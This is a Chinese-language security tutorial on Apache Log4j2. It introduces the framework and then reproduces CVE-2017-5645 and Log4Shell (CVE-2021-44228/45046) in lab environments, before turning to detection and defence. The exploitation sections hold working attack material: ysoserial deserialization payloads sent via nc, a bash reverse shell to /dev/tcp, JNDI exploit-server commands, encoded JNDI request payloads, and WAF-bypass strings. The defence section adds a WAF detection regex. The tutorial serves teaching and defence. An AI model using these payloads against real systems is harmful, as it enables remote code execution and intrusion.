# web 主流应用漏洞-Log4j2

<!-- more -->

## 1. Apache Log4j2 介绍

### 1.1 什么是 Log4j2

在日常的开发，测试和生产环境中，日志记录了应用，服务运行过程中的关键信息，以及出现异常时的堆栈，这些信息常常作为查询，定位，解决问题的关键，因此在任何系统中，对日志的使用得当，将极大的提高程序问题解决的效率。

Apache Log4j 是一个 Java 日志框架， 旨在为应用程序提供记录日志的功能。 log4j 大体可以分为 2 个版本： 1.x 和 2.x, 1.x 已经不再维护，目前主流的应用版本是 2.x, 2.x 也被称为 log4j2。使用非常广泛，被大量企业和系统所使用，

- Log4j 的 1.x 版本虽然已经被广泛使用于很多应用程序中，但由于出现内存泄漏等 bug，代码难以维护，以及需要使用老版本的 jdk 等劣势，在 2015 年 8 月已经停止维护。

- SLF4J：SLF4J 是众多日志系统的内核，提供统一的接口，不提供具体实现，不是具体可使用可配置的日志系统。

- Logback：提供了对 SLF4J 具体实现的日志系统，相比 Log4j1.x，Logback 的性能，使用场景，内存使用等方面的优化要远远强于 Log4j1.x。

- Log4j2：Log4j2 虽然在各个方面都与 logback 非常相似，但是却提供了更强的性能和并发性，下一代异步 logger，易于拓展自定义需求的架构，是目前使用十分广泛的日志框架。

> 关于日志记录框架的一些基础：
>
> 1、定义标准日志接口的框架，如：Commons Logging、SLF4J、JCL（Jakarta Commons Logging）、jboss-logging；
>
> 2、实现标准日志接口定义的具体实现方案，如：Log4j，Log4j2，Logback，Java Util Logging(Jul)、slf4j-simple、slf4j-nop。
>
> 3、Logback、slf4j-simple、slf4j-nop 直接原生实现了 slf4j 的接口；
>
> 4、 Log4j、Log4j2、Java Util Logging(Jul)没有直接实现 slf4j 接口，所以需要对应的适配类将 SLF4J 接口和具体实现类进行绑定（也就是说除了接口和实现类两个依赖外，还需要一个桥接包用于将接口和实现进行绑定）。

log4j2 由四部分构成：

- Logger -- 负责捕获日志记录，并传递给 Appender，他是日志行为的发起者。
- Appender -- 负责将日志事件进行分类处理，将日志发往他应该去的目标去向，因此也可以称为 Handler。
- Layout -- Layout 负责在日志输出前决定日志的格式，因此也可以称为 Fomatter。
- Filter -- Filter 是可选的组件，每一个 Logger、Appender 甚至全局都可以配置若干个 Filter，来决定相应的组件对当前的日志时间是否关心。

### 1.2 Log4j2 的特点

- 自动重新加载配置：参考了 Logback 的设计，提供自动刷新参数配置，最实用的就是我们在生产上可以动态的修改日志的级别而无需重启应用

- 异常处理：在 logback 中，Appender 中的异常不会被应用感知到，但是在 Log4j2 中，提供了一些异常处理机制

- 性能提升：log4j2 相较于 log4j 和 logback 都具有很明显的性能提升，据官方测试，异步记录器的吞吐量比 Log4j 1.x 和 Logback 高 18 倍，延迟低

- 无垃圾机制：（默认开启）log4j2 在大部分情况下，都可以使用无垃圾机制【对象重用、内存缓冲】，避免频繁的日志收集导致的 jvm gc

- 插件架构：Log4j2 使用插件模式配置组件。因为无需编写代码来创建和配置 Appender、Layout、Pattern Converyer 等。在配置了的情况下，Log4j2 自动识别插件并使用他们

- 高级过滤：与 Logback 一样，Log4j2 支持基于 Log 事件中的上下文数据，标记，正则表达式和其他组件进行过滤。此外，过滤器还可以与记录器关联。与 Logback 不同，Log4j2 可以在任何这些情况下使用通用的 Filter 类

- 更强大的参数格式化：

  Log4j 的 API 与 SLF4J 相比，提供了更丰富的参数格式化功能。使用 {} 占位符格式化参数。用 {} 的方式来实现“format”的功能（参数会直接 toString 替换占位符），像下面这样：

```java
org.apache.logging.log4j.Logger logger = LogManager.getLogger("com.xyz");
logger.debug("Logging in user {} with birthday {}", user.getName(), user.getBirthdayCalendar());
```

使用 String.format 形式格式化参数：Log4j2 中除了支持 {} 的参数占位符，还支持 String.format 的形式

```java
org.apache.logging.log4j.Logger logger = LogManager.getFormatterLogger("com.xyz");
logger.debug("Logging in user %s with birthday %s", user.getName(), user.getBirthdayCalendar());
logger.debug("Logging in user %1$s with birthday %2$tm %2$te,%2$tY", user.getName(), user.getBirthdayCalendar());
logger.debug("Integer.MAX_VALUE = %,d、Long.MAX_VALUE = %,d", Integer.MAX_VALUE, Long.MAX_VALUE);
// 注意：如果想使用 String.format 的形式，需要使用 LogManager.getFormatterLogger 而不是 LogManager.getLogger
```

使用 logger.printf 格式化参数：Log4j2 的 Logger 接口中，还有一个 logger.printf()方法，无需创建 LogManager.getFormatterLogger，就可以使用 String.format 的形式

```java

org.apache.logging.log4j.Logger logger = LogManager.getLogger("com.xyz");
logger.printf(Level.INFO, "Logging in user %1$s with birthday %2$tm %2$te,%2$tY", user.getName(), user.getBirthdayCalendar());
logger.debug("Opening connection to {}...", someDataSource);
```

### 1.3 Log4j2 的简单使用

**（1）引用依赖**

在一般项目中使用 Log4j2 至少需要引用 log4j-api-2.x 和 log4j-core-2.x 这两个 jar 包。

```xml
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.12.0</version>
</dependency>

<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.12.0</version>
</dependency>
```

在 spring boot 项目中使用 Log4j2

```xml
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-web</artifactId>
    <!-- 排除spring boot默认日志logback -->
    <!-- 注意！！！这里必须有 -->
    <exclusions>
        <exclusion>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-logging</artifactId>
        </exclusion>
    </exclusions>
</dependency>

<!-- 引入log4j2依赖 -->
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-log4j2</artifactId>
</dependency>
```

**（2）添加配置文件**

配置文件 log4j2.xml 一般类似这样：

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!-- 配置LoggerConfig，即Appenders的日志级别为WARN -->
<Configuration status="WARN">
    <!-- Appenders支持配置多个Appender，支持向不同的目标输送日志，本例为配置向控制台输出 -->
    <Appenders>
        <Console name="Console" target="SYSTEM_OUT">
            <PatternLayout>
                <Pattern>%d{yyyy-MM-dd HH:mm:ss,SSS} [%t] %-5level %logger{0} - %msg%n</Pattern>
            </PatternLayout>
        </Console>
    </Appenders>

    <!-- Loggers支持配置多个Logger，可引用不同的目标Appender，也可根据业务需求定制特定要求的Appender -->
    <Loggers>
        <!-- name属性为项目包名或者类名 -->
        <Logger name="com.jourwon" level="debug" additivity="false">
            <AppenderRef ref="Console"/>
        </Logger>
        <Root level="error">
            <AppenderRef ref="Console"/>
        </Root>
    </Loggers>

</Configuration>


```

- 默认情况下，Log4j2 在 classpath 下查找名为 log4j2.xml 的配置文件。

- 也可以使用 Java 启动命令指定配置文件的全路径。-Dlog4j.configurationFile=opt/demo/log4j2.xml

- 还可以使用 Java 代码指定配置文件路径，例如

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.core.LoggerContext;

import java.io.File;

public static void main(String[] args) {

    LoggerContext loggerContext = (LoggerContext) LogManager.getContext(false);
    File file = new File("opt/demo/log4j2.xml");
    loggerContext.setConfigLocation(file.toURI());

}
```

- Web 工程 web.xml 配置监听及加载：

```xml
<!-- Web工程方式加载 -->

<context-param>
    <param-name>log4jConfiguration</param-name>
    <param-value>classpath:log4j2.xml</param-value>
</context-param>

<listener>
    <listener-class>org.apache.logging.log4j.web.Log4jServletContextListener</listener-class>
</listener>
```

Log4j2 中日志有六个级别（level）：

- trace：追踪，是最低的日志级别，相当于追踪程序的执行，一般不怎么使用
- debug：调试，一般在开发中，都将其设置为最低的日志级别
- info：信息，输出重要的信息，使用较多
- warn：警告，有些时候,虽然程序不会报错，但是还是需要告诉程序员的
- error：错误，这个在开发中也挺常用的
- fatal：严重错误，这个一旦发生，程序基本上也要停止了
  当日志级别设置为某个值的时候，低于它的日志信息将不会被记录，只有高于设置的级别的信息会被记录。

## 2. 部分历史漏洞演示

### 2.1 Log4j2 反序列化命令执行漏洞（CVE-2017-5645）

（1）漏洞介绍

攻击者可以通过发送一个特别制作的二进制 payload，在组件将字节反序列化为对象时，触发并执行构造的 payload 代码。

该漏洞主要是由于在处理 ObjectInputStream 时，接收器对于不可靠来源的 input 没有过滤。可以通过给 TcpSocketServer 和 UdpSocketServer 添加可配置的过滤功能以及一些相关设置，可以有效的解决该漏洞。目前 Log4j 官方已经发布新版本修复了该漏洞。

影响版本：Log4j<2.8.2

（2） 漏洞原理

Demo 环境（为了漏洞复现成功，添加一条 **commons-collections** 的 **Gadget**）

```xml
    <dependencies>
        <!-- https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core -->
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-core</artifactId>
            <version>2.8.1</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api -->
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-api</artifactId>
            <version>2.8.1</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/commons-collections/commons-collections -->
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.1</version>
        </dependency>
</dependencies>
```

然后写一个 main 函数，在 8888 端口起一个接收数据的 SocketServer

```java
import org.apache.logging.log4j.core.net.server.ObjectInputStreamLogEventBridge;
import org.apache.logging.log4j.core.net.server.TcpSocketServer;

import java.io.IOException;
import java.io.ObjectInputStream;

public class Log4jSocketServer {
    public static void main(String[] args){
        TcpSocketServer<ObjectInputStream> myServer = null;
        try{
            myServer = new TcpSocketServer<ObjectInputStream>(8888, new ObjectInputStreamLogEventBridge());
        } catch(IOException e){
            e.printStackTrace();
        }
        myServer.run();
    }
}
```

只需要将反序列化后的 payload 发送给这个端口，



第一个断点处，等待接收 socket 数据；

第二个断点处，将接收到的数据转换成**ObjectInputStream** 对象数据；

最终在 `handler.start()` 中调用**SocketHandler** 类的 **run** 方法。



在 **SocketHandler** 类的 **run** 方法中， **ObjectInputStream**对象数据被传入了 **ObjectInputStreamLogEventBridge** 类的 **logEvents**方法，而反序列化就发生在这个方法中。



就是这样。

（3）漏洞利用

> 本地环境漏洞利用：

```
java -jar ysoserial-all.jar CommonsCollections3 calc >> payload.bin
cat payload.bin | nc 127.0.0.1 8888
```

> vulhub 靶场环境，使用工具 ysoserial

```
java -jar ysoserial-all.jar CommonsCollections5 "touch /tmp/success" | nc 192.168.1.189 4712

```





### 2.2 Log4j2 JNDI 注入漏洞（CVE-2021-44228）

（1）漏洞介绍

漏洞影响版本为 2.0~2.14.1。

2021 年 11 月 24 日，阿里云安全团队向 Apache 官方报告了 Apache Log4j2 远程代码执行漏洞，在 12 月 9 日被国外有人公开 POC，从而导致了一波安全从业人员的疯狂运动，甲方安全从业者加班加点修复漏洞；白帽子们疯狂扫描漏洞并提交 SRC，一度导致一些 SRC 发布公告暂停接收相关漏洞；而黑灰产们已经在自己的挖矿勒索武器库上增加了该漏洞的利用模块。为什么会这么疯狂？

漏洞触发及其简单，攻击者可直接构造恶意请求，触发远程代码执行漏洞。漏洞利用无需特殊配置

```
漏洞刚爆出时受影响的组件：
Spring-Boot-strater-log4j2
Apache Struts2
Apache Solr
Apache Flink
Apache Druid
ElasticSearch
Flume
Dubbo
Redis
Logstash
Kafka
vmvare
```

此漏洞影响广泛，开源组件中有近两万项目使用该存在漏洞的模块，绝对是目前为止影响最为广泛的漏洞，堪比之前出现的 heartbleed（心脏滴血）漏洞。比如 vmvare 的公告：https://www.vmware.com/security/advisories/VMSA-2021-0028.html

至漏洞爆发开始，为了体现该漏洞的影响，甚至有了漏洞打地球的趣图，详情参考《[核弹级漏洞公开，昨晚你睡着了么？](https://mp.weixin.qq.com/s?__biz=MzI5MDQ2NjExOQ==&mid=2247496216&idx=1&sn=2c85e1ad985e8a37c5ec2b7a5bded7cd&scene=21#wechat_redirect)》，除了文中的还有入侵汽车、借用 WIFI 名称钓鱼的，从线上到线下广泛应用：

大量网站存在这个问题，比如百度：



ICloud：





（2）漏洞原理

关于 log4j2 的 lookup 功能

https://logging.apache.org/log4j/2.x/manual/lookups.html

日志在打印时当遇到 `${` 后，Interpolator 类以 `:` 号作为分割，将表达式内容分割成两部分，前面部分作为 prefix，后面部分作为 key。然后通过 prefix 去找对应的 lookup，通过对应的 lookup 实例调用 lookup 方法，最后将 key 作为参数带入执行。

调用堆栈如下：



关键点：

```
LOGGER.error
  ......
    MessagePatternConverter.format
      ....
        StrSubstitutor.resolveVariable
          Interpolator.lookup
            JndiLookup.lookup
              JndiManager.lookup
                InitialContext.lookup

```

- **MessagePatternConverter.format**

poc 代码中的 LOGGER.error()方法最终会调用到 MessagePatternConverter.format()方法，该方法对日志内容进行解析和格式化，并返回最终格式化后的日志内容。当碰到日志内容中包含`${`子串时，调用 StrSubstitutor 进行进一步解析。



- **StrSubstitutor.resolveVariable**

StrSubstitutor 将`${`和`}`之间的内容提取出来，调用并传递给 Interpolator.lookup()方法，实现 Lookup 功能。



- **Interpolator.lookup**

Interpolator 实际是一个实现 Lookup 功能的代理类，该类在成员变量 strLookupMap 中保存着各类 Lookup 功能的真正实现类。Interpolator 对 上一步提取出的内容解析后，从 strLookupMap 获得 Lookup 功能实现类，并调用实现类的 lookup()方法。

例如对 poc 例子中的 jndi:ldap://10.89.17.243:1389/Basic/Command/Base64/Y2FsYw==解析后得到 jndi 的 Lookup 功能实现类为 JndiLookup，并调用 JndiLookup.lookup()方法。


- **JndiLookup.lookup**

`JndiLookup.lookup()`方法调用`JndiManager.lookup()`方法



获取 JNDI 对象后，调用该对象上的`toString()`方法，最终返回该字符串。



- **JndiManager.lookup**

`JndiManager.lookup()`较为简单，直接委托给`InitialContext.lookup()`方法。这里单独提到该方法，是因为后续几个补丁中较为重要的变更即为该方法。



（3） 漏洞利用

> **环境 1：vulfocus/log4j2-cve-2021-44228:latest**

反弹 shell 命令如下：

```
bash -i >& /dev/tcp/100.1.1.169/1245 0>&1
```

将其 base64 编码

```
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDAuMS4xLjE2OS8xMjQ1IDA+JjE=
```

先用 JNDI 注入工具起 RMI 或 ldap，具体命令如下：

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDAuMS4xLjE2OS8xMjQ1IDA+JjE=}|{base64,-d}|{bash,-i}" -A 100.1.1.169
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[ADDRESS] >> 100.1.1.169
[COMMAND] >> bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDAuMS4xLjE2OS8xMjQ1IDA+JjE=}|{base64,-d}|{bash,-i}

```



选择一个 payload 复制，放入 burpsuite 的如下报文中（需要 URL 编码），发送给目标主机：

```http
GET /hello?payload=%24%7b%6a%6e%64%69%3a%72%6d%69%3a%2f%2f%31%30%30%2e%31%2e%31%2e%31%36%39%3a%31%30%39%39%2f%71%7a%74%73%39%63%7d%20 HTTP/1.1
Host: 192.168.1.189:52721
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 6

```

反弹 shell 成功



---

> **环境 2：vulhub/solr:8.11.0 依赖了 Log4j 2.14.1**

起 jndi 服务的步骤和命令一样，就是把接口地址改成`/solr/admin/cores?action=`

```http
GET /solr/admin/cores?action=%24%7b%6a%6e%64%69%3a%72%6d%69%3a%2f%2f%31%30%30%2e%31%2e%31%2e%31%36%39%3a%31%30%39%39%2f%34%74%65%74%6f%33%7d  HTTP/1.1
Host: 192.168.1.189:8983
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


```

> **环境 3：本地运行的，源码地址https://github.com/christophetd/log4shell-vulnerable-app**
>
> **同 vulfocus ghcr.io/christophetd/log4shell-vulnerable-app:latest**

这里也是解析 JNDI，只是解析的地方变成了从请求头里传进去的参数

```
java -jar .\JNDIExploit-1.4-SNAPSHOT.jar -i 10.89.17.243
```

起 LDAP 服务



添加请求头`X-Api-Version`，内容为`${jndi:ldap://10.89.17.243:1389/Basic/Command/Base64/Y2FsYw==}`。

使用 payload` Basic/Command/Base64/Y2FsYw==`，`Y2FsYw==`为`calc`的 base64 编码，如下：





成功弹出计算器



请求头内容改成这样

```
${${lower:j}${lower:n}${lower:d}${lower:i}:${lower:l}${lower:d}${lower:a}${lower:p}://10.89.17.243:1389/Basic/Command/Base64/Y2FsYw==}
```

说不定能绕过 WAF

### 2.3 Log4j2 JNDI 注入漏洞（CVE-2021-45046）

（1）漏洞介绍

对于 CVE-2021-44228 漏洞在`2.15.0`版本上的修复不完善，漏洞影响版本：`All versions from 2.0-beta9 to 2.15.0, excluding 2.12.2`

（2）漏洞原理

从`2.15.0`版本开始，默认是不开启 Lookup 功能，即`log42.formatMsgNoLookups`默认为`true`。已无法再通过设置该选项为`false`来开启 Lookup 功能，只能通过在配置文件中指定`%m{lookups}` 来开启。

并且，JndiManager#lookup()方法中，进行了以下安全校验：

```
(1) allowedProtocols：只允许协议java、ldap、ldaps；
(2) allowedHosts：只允许主机为本机IP127.0.0.1、localhost等。
(3) allowedClasses：LDAP服务器的返回包中javaClassName只允许为基本数据类型的类，比如java.lang.Boolean、java.lang.Byte、java.lang.Short等等。
(4) 不能加载远程ObjectFactory类。
```





**绕过上述限制实现 JNDI 注入**

(1) 绕过协议白名单（java、ldap、ldaps）

```
只能使用ldap协议进行JNDI注入。
```

(2) 绕过主机白名单（本机 IP127.0.0.1、localhost 等）。使用 Java 的一个 trick 进行绕过，如下：

```
ldap://127.0.0.1#evilhost.com
当URI#getHost()方法遇到这样的url时，会取#前面，协议://后面的部分作为url的Host.
```

(3) 绕过 javaClassName 白名单（如 java.lang.Boolean、java.lang.Byte、java.lang.Short 等）

```
javaClassName这个属性的值是从LDAP服务器返回的数据里取的，而且这个属性的值对于后续的漏洞利用毫无影响，只要修改一下LDAP服务端的代码，将该值的属性改为满足log4j2中要求的值即可。
```

(4) 绕过不能加载远程 ObjectFactory 类的限制

```
修改LDAP服务器，让其返回序列化数据，这样代码还是会走到最后的this.context.lookup()。在目标服务JNDI lookup的过程中，如果目标环境classpath中包含了可利用的反序列化Gadget，便可实现 RCE。
所以这里实现RCE的另一个条件就是目标环境中存在可被利用的Java反序列化Gadget。
至于LDAP服务的修改，参考《JNDI注入绕过高版本JDK限制》(https://blog.csdn.net/mole_exp/article/details/121141042)，只是添加一个返回序列化数据的功能。
```

**目前这几台主机都不支持 ldap://127.0.0.1#evilhost.com 这样的形式，暂未复现。**

## 3. 检测与防御

### 3.1 检测漏洞是否存在

**黑盒测试**

大家都知道存在漏洞是因为在打日志的时候存在问题，所以对于黑盒测试而言，只要是能够被服务端获取且被记录的地方都是可能触发漏洞的，比如 header 中的 Cookie、User-agent 等，post 或者 get 的参数中，url 中等，这种只能盲打，根据返回结果来判断。

检测漏洞项目参考：

> https://github.com/takito1812/log4j-detect/blob/main/log4j-detect.py



主要在 header 和 参数中增加 payload 进行漏洞触发，可以结合 dnslog 平台实现自动化漏洞发现，攻击图如下：



**白盒测试**

白盒相对容易一些，毕竟代码在手只需要搜索 git 平台的代码，如果符合漏洞版本范围内的都是存在问题的，全部升级替换即可。

下面是火线安全统计的关于存在漏洞组件的库，可以进行搜索

> https://log4j2.huoxian.cn/layout



### 3.2 在野利用案例

随着漏洞的公开，在野利用该漏洞获取权限并进行挖矿勒索的案例已然出现，比如奇安信检测到的情况，详情[《警惕！Log4j2 漏洞已被多个僵尸网络家族利用》](https://mp.weixin.qq.com/s?__biz=Mzg4OTU4MjQ4Mg==&mid=2247485419&idx=1&sn=a8fccee9a7b0a364f9b7831bd41f4961&scene=21#wechat_redirect)，漏洞触发条件是在 url 中带入 payload：



漏洞利用成功后会加入 SSH 公钥，这个特征还比较明显，容易拦截。比如绿盟科技检测到的情况，详情[《Log4j2 修补时间差！挖矿软件和僵尸网络乘虚而入》](https://mp.weixin.qq.com/s?__biz=Mzg2Nzg0NDkwMw==&mid=2247490088&idx=1&sn=9968a5ecf2211952c4245fc26e66a6f3&source=41#wechat_redirect)，payload 及利用如图：



在野利用绝非检测到的这些方式，还有更多想不到的利用方式，这个也会长期存在。

### 3.3 漏洞防护方法

**部署 WAF 等安全产品**

如果企业已经部署了 WAF 等安全产品，在漏洞爆发之初就应该及时更新规则，临时处置，从而给后续的根治争取时间，从 payload 上看，有几个关键特征:Extra open brace or missing close brace{，又可能造成正常功能无法使用，毕竟可能存在正常请求中包含这个关键词的情况。

下面是一个关于 waf 绕过思路，也可以作为防御的参考：

1、jndi、ldap、rmi 绕过

- 用 lowerCase upperCase 把关键词分割开
- 如果使用了正则的话可以使用 upper 把 jndı 转成 jndi

案例：



‍2、`${` 关键词拦截（范围大且容易产生误报，且不能真正解决，漏洞的触发点是在打印日志的时候把可控内容携带进去了）

3、为了减少误报，waf 匹配规则参考：

```javascript
\${(\${(.*?:|.*?:.*?:-)('|"|`)*( ?1)}*|[jndi:(ldap|rm)]('|"|`)*}*){9,10}
```

效果如图：



**代码层面修复**

升级 log4j2：漏洞出现之后，官方也一直在推出补丁，然而一直也存在补丁绕过的情况 ，打官方补丁当然是一个比较靠谱的方式，但是一开始并不能完美解决。

升级 Java 版本：在进行漏洞利用时，针对高版本的 java jdk 是无法直接利用的，但是也不一定完全不可以，对于一些企业，定期更新 java 的可能影响比较小，所以 java 版本更新也是一种缓解的方式。

创建“log4j2.component.properties”文件，文件中增加配置“log4j2.formatMsgNoLookups=true”

设置 JVM 启动参数 - `Dlog4j2.formatMsgNoLookups=true`

**运维层面防护**

1、采用 rasp 对 lookup 的调用进行阻断

2、限制不必要的业务访问外网

3、WAF 添加漏洞攻击代码临时拦截规则

> 参考文献

**介绍 Log4j2 的文章**

[log4j2-入门简介](https://juejin.cn/post/7097962931690274829)

[log4j2 介绍及配置](https://www.cnblogs.com/jiyukai/p/9418463.html)

[Log4j2 日志框架](https://blog.csdn.net/qq_36259143/article/details/124213506)

**2.15.0 之前版漏洞相关文章**

[Log4j 反序列化分析(CVE-2019-17571&CVE-2017-5645)](https://mochazz.github.io/2019/12/26/Log4j%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%86%E6%9E%90//#%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90-1)

**2.15.0 版漏洞相关文章**

[史上最全 log4j2 远程命令执行漏洞汇总报告](https://cloud.tencent.com/developer/article/1919456)

[Apache Log4j2 Lookup 代码执行与拒绝服务漏洞(CVE-2021-45046)](https://blog.csdn.net/weixin_44047654/article/details/128300416)

[Log4j2 CVE-2021-45046 鸡肋 RCE 漏洞复现与浅析](https://blog.csdn.net/mole_exp/article/details/122037039)

**2.16.0 版漏洞相关文章**

[Log4j2 中 2.16.0 版中 DOS 攻击（CVE-2021-45105）的漏洞原理、复现步骤和修复方法(2.17.0 修复原理)](https://blog.csdn.net/hilaryfrank/article/details/122046202)
